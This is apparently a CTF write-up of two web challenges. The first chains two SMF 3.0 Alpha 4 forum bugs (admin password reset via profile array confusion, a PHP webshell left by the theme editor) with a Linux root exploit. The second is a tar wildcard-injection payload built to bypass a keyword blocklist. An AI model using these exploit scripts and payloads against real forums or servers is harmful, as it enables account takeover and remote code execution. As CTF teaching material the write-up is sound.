









## Web/0day_2

<!-- @xprops width="600px" -->



### In Short

- The challenge hosts SMF 3.0 Alpha 4 (an open-source forum) and an SSH endpoint. We start with a low-privilege forum account `slipping_jimmy`.
- Two 0day vulnerabilities in SMF are chained: a profile array confusion bug to hijack the admin account, then a theme editor temp file trick to get RCE as `www-data`.
- From the web container, an internal metadata service leaks SSH credentials of user `june` in a PNG file. The SSH host runs a kernel vulnerable to [CVE-2026-31431 (Copy Fail)](https://copy.fail/), giving us root and the flag.

### Explore

We're given the credentials `slipping_jimmy:6Cp875qgKTxKo4iL`, a web forum URL, and an SSH endpoint. The credentials are for the forum only, trying them on SSH fails.



The footer shows `SMF 3.0 Alpha 4`. The challenge is literally called "0day", so we pull the [source code](https://github.com/SimpleMachines/SMF) and start auditing.

### Auditing SMF

Two vulnerabilities were found and chained: one to take over the admin account, and one to turn admin access into code execution.

#### Vuln 1: Admin Takeover via Profile Array Confusion

When a user visits a profile page, `Profile::load()` determines whose profile to load:

<!-- @xprops title="Sources/Profile.php (1833-1853)" -->

```php
if (isset($_REQUEST['user'])) {
    $users = (array) $_REQUEST['user'];  // accepts arrays
    $type = self::LOAD_BY_NAME;
}
// ...
$loaded_ids = parent::loadUserData($users, $type, 'profile');

foreach (array_diff($loaded_ids, array_keys(self::$loaded)) as $id) {
    new self($id);
}
```

If `user` is passed as an array (`user[]=admin&user[]=slipping_jimmy`), `loadUserData` fetches both from the database, then the constructor runs once per user:

<!-- @xprops title="Sources/Profile.php (2126-2155)" -->

```php
protected function __construct(int $id)
{
    // ...
    self::$loaded[$this->id] = $this;

    if (empty(self::$member->id)) {
        self::$member = $this;          // only set on the FIRST call
        self::$memID = $this->id;
    }
    // ...
    parent::$me->is_owner = $this->id === parent::$me->id;  // overwritten EVERY call
    // ...
}
```

`loadUserData()` returns results ordered by `id_member`, so admin (id=1) comes before jimmy (id=2). Two constructor calls happen:

1. First call (admin, id=1): `self::$member` is empty → set to admin. `is_owner` = `(1 === 2)` → false.
2. Second call (jimmy, id=2): `self::$member` already set → not touched. `is_owner` = `(2 === 2)` → **true**.

The result:

| Variable              | Value | Meaning                             |
| --------------------- | ----- | ----------------------------------- |
| `Profile::$member`    | admin | All writes go here                  |
| `User::$me->is_owner` | true  | "User is editing their own profile" |

This is a classic TOCTOU bug. Since `is_owner` is true, SMF includes the `*_own` family of permissions (specifically `profile_password_own`), which any regular user naturally has:

<!-- @xprops title="Sources/Profile.php (962-972)" -->

```php
$permissions = array_map(
    fn($p) => $p->name,
    array_filter(
        Permission::getByGenericName($field['permission']),
        fn($p) => $p->own_any !== 'own' || User::$me->is_owner,
    ),
);

if (empty($permissions) || !User::$me->allowedTo($permissions, any: true)) {
    unset($this->standard_fields[$key]);
}
```

The password field survives the permission check. When the form saves, `Profile::$member->save()` writes the new password to admin's record.

There's one more obstacle. The profile page takes an `area` parameter in the URL (e.g. `?action=profile;area=account`), and each area can independently require the current password before saving. The `account` area does:

<!-- @xprops title="Sources/Actions/Profile/Main.php" -->

```php
'account' => [
    // ...
    'password' => true,  // must enter current password
    // ...
],
'theme' => [
    // ...
    // no 'password' key -> no current-password check
],
```

We don't know admin's current password, so `account` won't work. But the `theme` area has no such requirement.

When the form saves, `Profile::$member->save()` calls `prepareToSaveStandardFields()` which processes all POST fields. If `passwrd1` and `passwrd2` are in the POST body, the password change runs.

So the attack looks like:

```text
POST /index.php?action=profile;area=theme;save
passwrd1=<new>&passwrd2=<new>&user[]=admin&user[]=slipping_jimmy&...
```

Exploit script:

```python
from const import INSID
import requests
import re

base = f"https://zero-day-2-smf-{INSID}.inst.omnictf.com"

# login as jimmy with slipping_jimmy:6Cp875qgKTxKo4iL
phpsessid = "9d45692c194f235fb68b7c9000a5d4f0"
smfcookie737 = "%7B%220%22%3A2%2C%221%22%3A%225f010fac4e5295d35681547c7c43506e19d5f0bc61d7be26b9678f2eedc2475d2a926eee217c60bfd37d4dcbf778c3b2a6996bdffd8d3b35895da5f27574b9f3%22%2C%222%22%3A1784551171%2C%223%22%3A%22%22%2C%224%22%3A%22%5C%2F%22%7D"


def extract_csrf_and_session(html):
    # ...
    return session_var, session_id, csrf_name, csrf_value


# 1. Create a session and set the cookies
s = requests.Session()
s.verify = False
s.cookies.set("PHPSESSID", phpsessid)
s.cookies.set("SMFCookie737", smfcookie737)

# 2. Get the CSRF token and session variables
r_get = s.get(
    f"{base}/index.php",
    params={
        "action": "profile",
        "area": "theme",
        "user[]": ["admin", "slipping_jimmy"],
    },
)
session_var, session_id, csrf_name, csrf_value = extract_csrf_and_session(r_get.text)

# 3. Change the password for admin
new_password = "xK9#mQ2$vL7!nR4w"
r_post = s.post(
    f"{base}/index.php?action=profile;area=theme;save",
    cookies={
        "PHPSESSID": phpsessid,
        "SMFCookie737": smfcookie737,
    },
    data=[
        ("passwrd1", new_password),
        ("passwrd2", new_password),
        (session_var, session_id),
        (csrf_name, csrf_value),
        ("user[]", "admin"),
        ("user[]", "slipping_jimmy"),
        ("save", "Change profile"),
    ],
    verify=False,
    allow_redirects=False,
)

print(r_post.status_code)  # 302
```

Now we can log in as admin with the new password:

<!-- @xprops width="400px" -->



> - **What we need:** A regular forum account
> - **What we achieve:** Full admin takeover

#### Vuln 2: RCE via Theme Editor Temp File

With admin access, we head to the built-in Theme Editor, which allows editing `.template.php` files directly.

When admin saves a template, SMF does the following:

<!-- @xprops title="Sources/Actions/Admin/Themes.php (1099-1107)" -->

```php
Config::safeFileWrite($currentTheme['theme_dir'] . '/tmp_' . session_id() . '.php', $_POST['entire_file']);

$error = @file_get_contents($currentTheme['theme_url'] . '/tmp_' . session_id() . '.php');

if (preg_match('~ <b>(\d+)</b><br( /)?' . '>$~i', $error) != 0) {
    $error_file = $currentTheme['theme_dir'] . '/tmp_' . session_id() . '.php';
} else {
    unlink($currentTheme['theme_dir'] . '/tmp_' . session_id() . '.php');
}
```

The flow:

1. Content is written to a temp file `Themes/default/tmp_<PHPSESSID>.php`
2. SMF does a "syntax check" by HTTP-fetching this `.php` file via its public URL
3. SMF checks the response against a Fatal Error regex (`~ <b>(\d+)</b><br( /)?>$~i`):
    - Match (syntax error): temp file is kept for the admin to inspect
    - No match (code is fine): temp file deleted, content overwrites the real template

We want the temp file to stay, so we deliberately append a call to an undefined function to trigger a Fatal Error:

```php
<?php @system($_GET["cmd"]); xxxx(); ?>
```

`xxxx()` is undefined — PHP 8 throws a Fatal Error whose output ends with `<b>N</b><br />`, matching the regex. SMF keeps the file, and it's now a webshell at a known public URL.

<!-- @xprops width="600px" -->



After clicking `SAVE CHANGES`, the webshell persists at `Themes/default/tmp_<PHPSESSID>.php`:

<!-- @xprops width="800px" -->



> - **What we need:** Forum admin access
> - **What we achieve:** RCE as `www-data`

### Approach - Step 1: Getting SSH Credentials

With the webshell, we probe the internal network and find a service on port 2029, and `?cmd=curl localhost:2029` gives:

```text
amazon.local — internal metadata service

Available endpoints:
  /latest/meta-data/
  /latest/meta-data/iam/security-credentials/june

Fatal error: Uncaught Error: Call to undefined function xxxx() in ...
```

An AWS-style metadata service on port 2029. Fetching `localhost:2029/latest/meta-data/iam/security-credentials/june` the same way returns a PNG image. Saving and opening it reveals:

<!-- @xprops width="400px" -->



`june:o3urvm3ori54yh56m4` are the SSH credentials (they stay the same across instances).

### Approach - Step 2: Privilege Escalation

SSH uses TLS wrapping on port 1337:

```bash
ssh -o "ProxyCommand=ncat --ssl %h %p" -p 1337 june@zero-day-2-ssh-<instid>.inst.omnictf.com
```

Quick enumeration after landing:

```text
$ uname -a
Linux senior-dev-5c9f88df48-tfwz4 6.12.63+deb13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.63-1 (2025-12-30) x86_64 GNU/Linux

$ ls -la /usr/bin/su
-rwsr-xr-x 1 root root 72000 Nov 21 2024 /usr/bin/su
```

Kernel `6.12.63` is vulnerable to [CVE-2026-31431 "Copy Fail"](https://copy.fail/), a local privilege escalation that abuses `AF_ALG` + `splice()` to overwrite the page cache of any readable file with attacker-controlled bytes. We target the SUID binary `/usr/bin/su`.

Download `copy_fail_exp.c` from [nisec-eric/cve-2026-31431](https://github.com/nisec-eric/cve-2026-31431/blob/main/poc/copy_fail_exp.c). The remote container has no compiler, no `python3`, and no outbound network. So we compile locally and upload the binary.

My local machine is macOS ARM, so I used Docker to cross-compile a static x86_64 binary:

```bash
docker run --rm --platform linux/amd64 -v $(pwd):/src -w /src gcc:12 \
  gcc -O2 -static -o copy_fail copy_fail_exp.c
```

Upload via `scp` with the same TLS-wrapped SSH:

```bash
scp -o "ProxyCommand=ncat --ssl zero-day-2-ssh-<instid>.inst.omnictf.com 1337" copy_fail june@127.0.0.1:/tmp/copy_fail
```

Then run it:

```text
$ /tmp/copy_fail
[*] Copy Fail (C) — CVE-2026-31431
[*] Target: /usr/bin/su
[*] Arch:   x86_64
[*] Payload: 160 bytes
[*] Writing: 160/160 bytes
[+] Done. Executing su...
# whoami
root
# id
uid=0(root) gid=1000(june) groups=1000(june)
# cat /root/flag*
omniCTF{S716JuLeUw6g7yU0c6WBVw5Tx8dQWw1d}
```

## Web/StayWild

<!-- @xprops width="600px" -->



### Background

#### Wildcard Characters in Shell

In Unix shells, the `*` [wildcard character](https://en.wikipedia.org/wiki/Wildcard_character) expands to match all filenames in the current directory. For example, `echo *` in a directory containing `a.txt`, `b.txt`, and `c.txt` is equivalent to `echo a.txt b.txt c.txt`.

This becomes dangerous when a command treats the expanded filenames as arguments. If a file is named `--some-flag`, the shell will happily expand `*` to include it, and the command will interpret it as a command-line option rather than a filename.

#### `tar` Wildcard Injection

GNU `tar` supports checkpoint actions: `--checkpoint=N` triggers a callback every N records, and `--checkpoint-action=exec=CMD` executes `CMD` at each checkpoint.

If an attacker can place files with these filenames in a directory:

```text
rce.sh
--checkpoint=1
--checkpoint-action=exec=sh<rce.sh
```

Then any `tar` command using a `*` glob in that directory will expand to something like:

```bash
tar -xvf archive.tar --checkpoint=1 --checkpoint-action=exec=sh<rce.sh rce.sh ...
```

This gives the attacker arbitrary command execution.

### Approach

Checking `/robots.txt` reveals:

```text
User-agent: *
# Field archive tooling is not ready for public indexing.
```

The hint suggests hidden functionality. After some endpoint fuzzing, we find a hidden `/staging` page, which is a `.tar` file upload interface.

<!-- @xprops width="600px" -->



Looking at the page source:

```html
<div class="actions">
    <button class="is-disabled" type="button" disabled>
        Download files
        <span class="soon">Soon feature</span>
    </button>

    <form action="/additional/1784490535624" method="POST" enctype="multipart/form-data">
        <input
            data-beta-upload
            class="is-disabled"
            type="file"
            name="file"
            id="files_1784490535624"
            multiple
            hidden
            disabled
            onchange="this.form.submit()"
        />
        <button
            data-beta-upload
            class="is-disabled"
            type="button"
            disabled
            onclick="document.getElementById('files_1784490535624').click()"
        >
            Upload additional files
            <span class="soon">Soon feature</span>
        </button>
    </form>
</div>
```

Both "Download files" and "Upload additional files" appear disabled in the UI, but the upload form exposes a real endpoint at `/additional/:id`. We can POST directly to it.

I initially considered a symlink attack (put a symlink in the `tar` pointing to `/etc/passwd` or similar), but since there's no download feature, we have no way to read the resolved symlink content back.

To understand the server behavior, we upload `abc.tar` (containing files `aaa`, `bbb`, `ccc`) as the initial archive, then upload `def.tar` (containing `ddd`, `eee`, `fff`) via the additional endpoint. The response shows:

```text
[extraction 1] initial archive pass
aaa
bbb
ccc

[extraction 2] additional extraction pass
aaa
bbb
ccc
tar: abc.tar: Not found in archive
tar: def.tar: Not found in archive
tar: Exiting with failure status due to previous errors

[additional archive: def.tar]
ddd
eee
fff
```

The `[extraction 2]` output is interesting. It lists `aaa bbb ccc` (files in the workspace) and tries to find `abc.tar` and `def.tar` as archive members, this weird behavior is like the server running:

```bash
tar -xvf abc.tar *
```

If so, the `*` glob expands to all filenames in the workspace directory, and `tar` interprets them as specific members to extract from the archive. Since `abc.tar` and `def.tar` aren't members of themselves, they produce "Not found in archive" errors.

We craft `exp.tar` containing our payload files:

```python
import io
import tarfile

output_file = "exp.tar"

# script_content = "ls; export;"
script_content = "cat /opt/wild/.cache/seed-574"

files = {
    "rce.sh": script_content.encode(),
    "--checkpoint=1": b"",
    "--checkpoint-action=exec=sh<rce.sh": b"",
}

with tarfile.open(output_file, "w") as tar:
    for filename, content in files.items():
        info = tarfile.TarInfo(filename)
        info.size = len(content)
        info.mode = 0o644
        tar.addfile(info, io.BytesIO(content))

print(f"Created: {output_file}")
```

**First attempt**: upload `exp.tar` as the initial archive, then trigger with any additional upload. But the server rejects it:

> The initial archive contains a blocked filename.

**Bypass**: the additional upload endpoint doesn't inspect the contents of uploaded tar files. So:

1. Upload `abc.tar` (initial) — normal archive
2. Upload `exp.tar` (additional) — the server extracts it, placing files with filenames `rce.sh`, `--checkpoint=1`, and `--checkpoint-action=exec=sh<rce.sh` into the workspace
3. Upload `def.tar` (additional) — triggers `tar -xvf abc.tar *`, where `*` now expands to include our injected `--checkpoint` files

RCE achieved!

<!-- @xprops width="600px" -->



```bash
echo "b21uaUNURnt3MWxkYzRyZHNfY2FuX2czdF93MWxkfQ==" | base64 -d
# omniCTF{w1ldc4rds_can_g3t_w1ld}
```

### Post-Solve Analysis

After getting RCE, let's look at the server source to understand exactly why our exploit worked.

The vulnerable command lives in `runAdditionalCommand`:

```js
function runAdditionalCommand(cwd, res, id, uploadedEntries) {
    const archiveName = getInitialArchiveName(cwd);
    runWithPty('tar -xvf ' + shellQuote(archiveName) + ' *', cwd, (output) => {
        extractAdditionalTarAttachments(cwd, uploadedEntries, (extraOutput) => {
            const logs = addLogEntry(id, 'additional extraction pass', output + extraOutput);
            const files = getWorkspaceFiles(cwd);
            res.send(resultPage(id, logs, files));
        });
    });
}
```

`"*"` appended to the `tar` command. The shell expands `*` to all workspace files before `tar` sees them.

The initial upload is well-protected, it rejects any `tar` entry where a path component starts with `-`.

```js
function blockedInitialTarEntryReason(name) {
    if (name === '.' || /^(\.\/)+$/.test(String(name || ''))) return null;

    const normalized = normalizeTarEntryName(name);

    if (!normalized) return 'empty filename';
    if (normalized.includes('\0') || normalized.includes('\n') || normalized.includes('\r')) {
        return 'control character';
    }

    if (
        path.isAbsolute(normalized) ||
        normalized === '..' ||
        normalized.startsWith('../') ||
        normalized.includes('/../') ||
        normalized.includes('\\')
    ) {
        return 'unsafe path';
    }

    if (normalized.split('/').some((part) => part.startsWith('-'))) {
        return 'option-style filename';
    }

    return null;
}
```

But the additional upload endpoint (`/additional/:id`) only validates the uploaded file's own name against `blockedAdditionalReason` — a blocklist of keywords like `cat`, `sh`, `bash`, etc.

```js
function blockedAdditionalReason(name) {
    const lower = String(name || '').toLowerCase();
    return BLOCKED_ADDITIONAL_TOKENS.find((token) => lower.includes(token)) || null;
}
```

Since our second uploaded file is simply named `exp.tar` (no blocked tokens), it passes. The server then extracts it without inspecting the tar contents, placing our `--checkpoint=1` and `--checkpoint-action=exec=sh<rce.sh` files directly into the workspace.

The third additional upload triggers `tar -xvf abc.tar *`, expanding the `*` to include these injected filenames and `tar` interprets them as command-line options, giving us RCE.
